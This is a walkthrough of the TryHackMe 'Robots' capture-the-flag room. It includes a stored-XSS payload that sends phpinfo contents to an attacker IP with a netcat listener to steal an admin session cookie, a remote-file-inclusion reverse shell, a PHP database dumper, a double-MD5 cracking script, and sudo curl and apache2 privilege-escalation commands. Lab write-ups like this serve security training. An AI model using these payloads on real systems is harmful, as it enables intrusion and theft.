TryHackMe - Robots - Walktrough
Reconnaissance
I added the target IP to /etc/hosts
We begin with a full port scan:

└─$ sudo nmap -p- robots.thmNext, I performed a version scan to identify running services

Enumeration
Ports 80 and 9000 were open and hosting web services.
Port 80 returned a forbidden response
Port 9000 displayed the default Apache page
Given the room name robots, I immediately checked:

It revealed multiple hidden paths.
The last endpoint was accesible
http://robots.thm/harm/to/self/This page contained a registration form.
I tried to use javascript as username

It worked, confirming a stored XSS vulnerability.
An admin is actively monitoring new user registrations. The PHPSESSID session cookie currently set is marked HttpOnly, so JavaScript can’t touch it. Fortunately, the phpinfo() page which is only accesible when logged in, is exposed at:
http://robots.thm/harm/to/self/server_info.phpThe PHPSESSID is exposed in this file. If we fetch it, encode it to base64, and send it to our server, we may be able to hijack the admin’s session.
I wrote a JavaScript payload and used it as the username:
<script>fetch('/harm/to/self/server_info.php').then(response => response.text()).then(data => {fetch("http://192.168.169.133:8000/" + btoa(data));});</script>Started a netcat listener on port 8000 and send the output to a file
└─$ nc -nvlp 8000 > outputWhen the admin executed my code, the content of phpinfo was send to netcat
I then decoded the base64 stored in output
Note that you have to remove some http headers in order to decode
└─$ cat output | base64 -d | grep PHPSESSID
We can now hijack the admin's session by replacing our PHPSESSID with theirs
I scanned http://robots.thm/harm/to/self/ with gobuster:

Inspecting admin.php reveals the following:

Exploitation
After some manual probing, I uploaded a PHP reverse shell.
I hosted it locally on port 7000.
A netcat listener was running on port 4444.
Then I uploaded the following file:
Reverse shell achieved:

This is a classic RFI vulnerability
To stabilize the session, I tried:
python3 -c "import pty; pty.spawn('/bin/bash')"Python was unavailable, likely because this is a Docker container, as shown in phpinfo():

Further inspection revealed config.php:
/var/www/html/harm/to/self/config.phpThis exposed database credentials. I reused them to build a PHP script that dumps all databases, and uploaded it using the same method as the reverse shell.
Database extractor (PHP)
<?php
try {
$pdo = new PDO("mysql:host=db", "robots", "PASSWORD_HERE");
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
echo "<h1>Databases</h1>";
$databases = $pdo->query("SHOW DATABASES")->fetchAll(PDO::FETCH_COLUMN);
foreach ($databases as $db) {
if (in_array($db, ['information_schema', 'performance_schema'])) {
continue;
}
echo "<h2>Database: $db</h2>";
// Select DB
$pdo->exec("USE `$db`");
$tables = $pdo->query("SHOW TABLES")->fetchAll(PDO::FETCH_COLUMN);
foreach ($tables as $table) {
echo "<h3>Table: $table</h3>";
try {
$stmt = $pdo->query("SELECT * FROM `$table`");
$rows = $stmt->fetchAll(PDO::FETCH_ASSOC);
if (!$rows) {
echo "No data<br>";
continue;
}
foreach ($rows as $row) {
echo "<pre>";
print_r($row);
echo "</pre>";
}
} catch (Exception $e) {
echo "Error reading table: " . $e->getMessage() . "<br>";
}
}
}
} catch (PDOException $e) {
echo "Connection failed: " . $e->getMessage();
}
?>
This revealed a new user:

After writing a script to crack the hash, I got no results.
So I attempted double hashing and wrote the following script:
Password Cracker (BASH)
#!/bin/bash
target="HASH_HERE"
user="rgiskard"
year=2026
for month in {1..12}; do
days=$(date -d "$year-$month-01 +1 month -1 day" +%d)
for day in $(seq 1 "$days"); do
dd=$(printf "%02d" "$day")
mm=$(printf "%02d" "$month")
input="${user}${dd}${mm}"
hash=$(echo -n "$input" | md5sum | awk '{print $1}' | xargs echo -n | md5sum | awk '{print $1}')
if [[ "$hash" == "$target" ]]; then
echo "Password found!"
echo "DD/MM: $dd$mm"
echo "UserPass: rgiskard:$(echo -n "$input" | md5sum | awk '{print $1}')"
exit 0
fi
done
done
I successfully retrieved the password using the script:

With the recovered password, I was able to log into the SSH server:

└─$ ssh rgiskard@robots.thmI found three users on the system:
- dolivaw
- rgiskard
- vagrant
No flag was found in the rgiskard directory.
A quick sudo -l revealed my current privileges:

We can execute curl as user dolivaw although it is limited to 127.0.0.1
After some trial and error I crafted the following curl command:
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ -K /tmp/readTo make the command work, I created the following file:
nano /tmp/readThen I added this line:
url = "file:///home/dolivaw/user.txt"And upon executing:

Ultimately I want to login as user dolivaw. So I executed the following chain of commands:
cd /tmp && ssh-keygen -t rsa -b 4096cat id_rsa.pub > authorized_keyssudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///tmp/authorized_keys -o /home/dolivaw/.ssh/authorized_keysWhat this command does
- sudo -u dolivaw : runs the command as user dolivaw
- /usr/bin/curl : HTTP/file transfer tool used to fetch or send data
- 127.0.0.1/ : target web server running locally (Apache on the machine)
- file:///tmp/authorized_keys : local file read via curl using the file protocol
- -o /home/dolivaw/.ssh/authorized_keys : writes the same output to the SSH authorized_keys file
This command abuses curl’s ability to both fetch remote content and read local files.
It connects to a local web server (127.0.0.1) while also referencing a local file via the file:// protocol.
The key abuse comes from the -o flag, which allows writing the response body to arbitrary file paths.
If executed with sufficient privileges, this can overwrite sensitive files such as SSH authorized_keys.
In this case, the goal is to inject a public SSH key into the authorized_keys file,
enabling passwordless SSH authentication for the target user.
python3 -m http.server 8080On the attack box, I ran:
└─$ wget robots.thm:8080/id_rsaThen I logged in as dolivaw:
└─$ chmod 600 id_rsa && ssh -i id_rsa dolivaw@robots.thmThis granted access as dolivaw:

First step was checking privileges:

apache2 can be run as root without a password. Since it doesn’t properly expose file contents and instead leaks data through error output, I crafted a command to extract the root flag:
sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /' -C 'Include /root/root.txt'And with success:

That's it, we got the root flag.
Thank you for reading.
I hope you learned something new today.